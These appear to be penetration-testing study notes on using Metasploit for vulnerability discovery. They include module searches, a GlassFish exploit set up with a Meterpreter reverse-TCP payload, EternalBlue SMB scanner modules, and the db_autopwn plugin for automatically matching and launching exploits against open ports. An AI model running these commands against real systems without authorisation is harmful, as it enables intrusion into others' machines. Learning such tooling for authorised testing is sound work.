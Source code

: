 ```shell
search type:auxiliary name:Microsoft IIS
# As we can see ther are all other versions of IIS like, 5.0, 4.0 etc.
```

There are two scenarios here:
- This particular version of Microsoft IIS might not be vulnerable to an inherent exploit
- There isn't a metasploit module available that can be used to exploit this particular service

```shell
search type:auxiliary name:MySQL 5.5
# Nothing related to this particular version
```

Another case:

```shell
search Sun GlassFish
use exploit/multi/http/glassfish_deployer
# We can see a payload has been set. The payload is what is sent to the target system.
info
set payload windows/meterpreter/reverse_tcp
show options
```

**Searchsploit** lists exploits, including those outside Metasploit, while also displaying available Metasploit modules.

```shell
searchsploit "Microsoft Windows SMB"
# In brackets we can see if there is a metasploit module for that exploit
searchsploit "Microsoft Windows SMB" | grep -e "Metasploit"
# However, we still don't know wheter any of these Metasploit modules will work on the version or the operating system.

search eternalblue
use auxiliary/scanner/smb/smb_ms17_010
show options
run
 
use auxiliary/scanner/smb/smb_ms17_010_eternalblue
show options
run
sysinfo 
```

So that's how to gain identify or perform some manual vulnerability scanning with the Metasploit framework.

**AutoPwn**
The next technique is the process or the DB auto pawn plugin. This is very important because it's extremely useful plugin for the Metasploit framework. 

```shell
# Metasploit Autopwn
cd Downloads/
wget https://raw.githubusercontent.com/hahwul/metasploit-autopwn/master/db_autopwn.rb
sudo mv db_autopwn.rb /usr/share/metasploit-framework/plugins/

# msfconsole
load db_autopwn
db_autopwn

# Enumerates exploits for each of the open ports
db_autopwn -p -t
# Limit to only the 445 port
db_autopwn -p -t -PI 445
db_autopwn -p -t -PI 21
```
